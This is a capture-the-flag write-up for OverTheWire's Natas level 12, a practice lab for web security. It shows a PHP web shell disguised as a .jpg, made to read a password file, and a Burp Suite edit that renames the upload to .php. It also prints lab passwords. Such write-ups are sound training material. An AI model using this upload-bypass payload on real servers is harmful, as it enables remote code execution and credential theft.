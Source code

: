 # Natas CTF Solutions  

## Natas Level 12  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Exploit **file upload vulnerability** to execute a PHP shell.  
- Retrieve the password for the next level.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas12.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas12`  
- **Password:** Use the password from Natas Level 11:  
```
yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB
```  
![Home_Page](https://github.com/user-attachments/assets/1fa87cce-a963-406b-9d86-075e55eaf619)

---

### **Step 3: Analyze the Webpage**  
- The page contains an **upload feature** that allows you to upload image files.  
- Inspecting the source code reveals that file extensions are being checked, but MIME types can be bypassed.  

![Page Source](https://github.com/user-attachments/assets/864d7d6f-98fd-4b34-a843-5b65492a0eab)
 
---

### **Step 4: Create a Malicious PHP File**  
1. Create a PHP shell disguised as a `.jpg` file:  
```bash
echo '<?php echo system("cat /etc/natas_webpass/natas13"); ?>' > natas12.jpg
```  

2. This will create a file named `natas12.jpg` containing PHP code.  
![image](https://github.com/user-attachments/assets/579717fa-d6f3-45a0-8fd9-fc374da17f2c)

---

### **Step 5: Upload the Malicious File**  
- Upload the `natas12.jpg` file.  
- Open **Burp Suite** and enable **intercept mode**.  
- Modify the `filename` extension from `.jpg` to `.php` in the request:  
```  
Content-Disposition: form-data; name="uploadedfile"; filename="natas12.php"  
```
![Chnaged_extension](https://github.com/user-attachments/assets/fd2bab97-bb48-4f39-ae43-8a8862d36a3a)
![image](https://github.com/user-attachments/assets/50624a0b-ece5-44f4-b281-84c3fd65a7e7)

- Forward the request.  

---

### **Step 6: Execute the File**  
- After uploading, a link to the file will appear on the page.
![Link](https://github.com/user-attachments/assets/3fb56620-4607-4c2c-8772-77baf6d06cdb)

- Open the link to execute the PHP code:  
```  
http://natas12.natas.labs.overthewire.org/uploads/x2etqejy94.php
```  
- The output will display the password for **Natas Level 13**.  

![Password](https://github.com/user-attachments/assets/5e953fbd-dbc7-4f80-9ca2-bebe9c96da2d)

---

### **✅ Password for Natas Level 13**  
```
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```  

---

## 💡 **Lessons Learned**  
✔️ **File Upload Vulnerabilities**: Servers often allow file uploads but may not properly validate file types or extensions.  
✔️ **MIME Type Bypass**: Modifying the content type or file extension can allow for command execution.  
✔️ **Burp Suite Manipulation**: Intercepting and modifying HTTP requests with Burp Suite is a key penetration testing technique.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 3 – Source Code with Upload Logic | ![Page Source](https://github.com/user-attachments/assets/864d7d6f-98fd-4b34-a843-5b65492a0eab) |  
| Step 5 – Burp Suite Interception | ![Chnaged_extension](https://github.com/user-attachments/assets/fd2bab97-bb48-4f39-ae43-8a8862d36a3a) |  
| Step 6 – PHP Shell Execution | ![Password](https://github.com/user-attachments/assets/5e953fbd-dbc7-4f80-9ca2-bebe9c96da2d) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 13**:  
👉 [http://natas13.natas.labs.overthewire.org](http://natas13.natas.labs.overthewire.org)  

---
